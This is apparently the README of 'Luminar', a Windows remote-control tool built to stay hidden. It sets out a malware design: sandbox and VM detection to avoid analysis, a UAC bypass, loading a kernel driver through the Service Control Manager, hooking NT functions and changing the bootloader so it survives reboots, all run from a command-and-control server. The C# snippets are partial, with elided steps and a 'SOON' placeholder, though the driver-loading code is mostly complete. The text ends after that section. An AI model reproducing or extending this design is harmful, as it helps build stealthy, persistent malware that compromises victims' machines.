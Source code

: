 # Luminar - Technical Documentation

## Table of Contents

1. [Introduction](#introduction)
2. [System Architecture](#system-architecture)
3. [Deployment Mechanism](#deployment-mechanism)
4. [Environment Detection](#environment-detection)
5. [Privilege Escalation](#privilege-escalation)
6. [Kernel Driver Loading](#kernel-driver-loading)
7. [Native Function Hooking](#native-function-hooking)
8. [Persistence](#persistence)
9. [Client-Server Communication](#client-server-communication)
10. [Technical Appendices](#technical-appendices)

## Introduction

Luminar is an advanced remote monitoring and control solution designed to operate stealthily on Windows systems. This technical documentation details the internal mechanisms and techniques used to ensure its operation, stealth, and persistence.

## System Architecture

Luminar consists of several interconnected modules:

1. **Client Module**: Main executable deployed on the target system
2. **Kernel Module**: Kernel-mode driver for low-level operations
3. **Persistence Module**: Component that modifies the bootloader to ensure persistence
4. **C2 Server**: Command and control infrastructure for client management

![System Architecture](images/system_architecture.png)

## Deployment Mechanism

Luminar deployment follows a multi-stage process designed to maximize stealth and effectiveness:

```mermaid
graph TD
    A[Initial Execution] --> B{VM Detection}
    B -->|VM detected| C[Legitimate Behavior]
    B -->|Real System| D[Stealth Deployment]
    D --> E[Privilege Escalation]
    E --> F[Kernel Driver Loading]
    F --> G[NT Function Hooking]
    G --> H[Bootloader Modification]
    H --> I[Persistence Established]
```

## Environment Detection

During its initial execution, Luminar performs a series of checks to determine if it's running in a virtual environment (sandbox, virtual machine) or on a real physical system.

### VM Detection Techniques

```csharp
public static bool IsVirtualMachine()
{
    // Check hardware signatures
    if (CheckVMHardwareSignatures())
        return true;
        
    // Check for known VM artifacts
    if (CheckVMDrivers() || CheckVMServices())
        return true;
        
    
    // Timing analysis (VMs have different timing characteristics)
    if (PerformTimingAnalysis())
        return true;
        
    return false;
}
```

If a virtual machine is detected, Luminar adopts legitimate behavior to avoid detection, acting as a standard application without deploying its malicious components.

## Privilege Escalation

On a real system, Luminar proceeds to escalate privileges from standard user (USER) to administrator rights (ADMIN).

### Elevation Techniques

1. **UAC Bypass**: Circumvention of User Account Control

```csharp
private static bool BypassUAC()
{
    // Using the deferred execution technique
    string systemDir = Environment.GetFolderPath(Environment.SpecialFolder.System);
    string explorerPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Windows), "explorer.exe");
    
    // Creating a COM task with automatic elevation
    ITaskService taskService = new TaskScheduler.TaskScheduler();
    taskService.Connect();
    
    // Configuring the task with elevated privileges
    // ...
    
    return true;
}
```

2. **SOON**

## Kernel Driver Loading

Once administrator privileges are obtained, Luminar proceeds to load its kernel-mode driver.

### Driver Loading Process

```csharp
private static bool LoadKernelDriver()
{
    // Extract driver from resources
    byte[] driverData = ExtractDriverResource();
    
    // Write driver to a temporary location
    string driverPath = Path.Combine(Path.GetTempPath(), GenerateRandomName() + ".sys");
    File.WriteAllBytes(driverPath, driverData);
    
    // Load driver via Service Control Manager
    IntPtr scmHandle = OpenSCManager(null, null, SC_MANAGER_ALL_ACCESS);
    
    if (scmHandle == IntPtr.Zero)
        return false;
    
    // Create and start service for the driver
    IntPtr serviceHandle = CreateService(scmHandle, "LuminarDriver", "Luminar System Service", 
                                        SERVICE_ALL_ACCESS, SERVICE_KERNEL_DRIVER, 
                                        SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL, 
                                        driverPath, null, IntPtr.Zero, null, null, null);
    
    if (serviceHandle == IntPtr.Zero)
    {
        // If service already exists, open it
        serviceHandle = OpenService(scmHandle, "LuminarDriver", SERVICE_ALL_ACCESS);
    }
    
    // Start the service
    bool result = StartService(serviceHandle, 0, null);
    
    // Cleanup
    CloseServiceHandle(serviceHandle);
    CloseServiceHandle(scmHandle);
    
    return result;
}
```
